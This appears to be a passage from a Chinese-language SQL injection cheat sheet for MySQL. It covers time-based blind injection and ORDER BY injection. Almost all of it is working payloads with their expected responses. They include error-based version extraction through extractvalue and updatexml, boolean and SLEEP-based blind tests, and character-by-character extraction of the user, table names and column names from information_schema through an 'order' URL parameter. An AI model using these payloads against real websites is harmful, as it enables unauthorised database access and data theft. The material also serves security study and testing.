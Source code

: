 + 时间盲注

```mysql
select * from users where id>1 order by id limit 1,1 
procedure analyse((select extractvalue
(rand(),concat(0x3a,(IF(MID(version(),1,1) 
like 5,BENCHMARK(5000000,SHA1(1)),1))))),1);
```

**Order by 注入**

由上表可看到，`order by` 后可接列名、表达式以及位置（数字）

报错

```
1 and extractvalue(1, concat(0x7e, (select @@version),0x7e))
```

```
/?order=IF(1=1,name,price) 通过name字段排序
/?order=IF(1=2,name,price) 通过price字段排序
/?order=(CASE+WHEN+(1=1)+THEN+name+ELSE+price+END) 通过name字段排序
/?order=(CASE+WHEN+(1=2)+THEN+name+ELSE+price+END) 通过price字段排序
/?order=IFNULL(NULL,price) 通过price字段排序
/?order=IFNULL(NULL,name) 通过name字段排序
/?order=rand(1=1) 
/?order=rand(1=2)
/?order=IF(1=1,1,(select+1+from+information_schema.tables)) 正常 /?order=IF(1=2,1,(select+1+from+information_schema.tables)) 错误 
利用regexp 
/?order=(select+1+regexp+if(1=1,1,0x00)) 正常 
/?order=(select+1+regexp+if(1=2,1,0x00)) 错误  
利用updatexml 
/?order=updatexml(1,if(1=1,1,user()),1) 正确
/?order=updatexml(1,if(1=2,1,user()),1) 错误  
利用extractvalue 
/?order=extractvalue(1,if(1=1,1,user())) 正确 
/?order=extractvalue(1,if(1=2,1,user())) 错误 
```
盲注

```
order by IF((bool),1,(select 1 union select 2))
```

```
sleep
/?order=if(1=1,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test)) 正常响应时间
/?order=if(1=2,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test)) sleep 2秒
```

```
数据猜解
通过下可以得知user()第一位为r,ascii码的16进制为0x72：
/?order=(select+1+regexp+if(substring(user(),1,1)=0x72,1,0x00)) 正确
/?order=(select+1+regexp+if(substring(user(),1,1)=0x71,1,0x00)) 错误
猜解当前数据库的表名：
/?order=(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+
table_schema%3ddatabase()+limit+0,1),1,1)=0x67,1,0x00)) 正确
/?order=(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+
table_schema%3ddatabase()+limit+0,1),1,1)=0x66,1,0x00)) 错误
猜解指定表名中的列名：
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns
+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x69,1,0x00)) 正常

/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns
+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x68,1,0x00)) 错误
```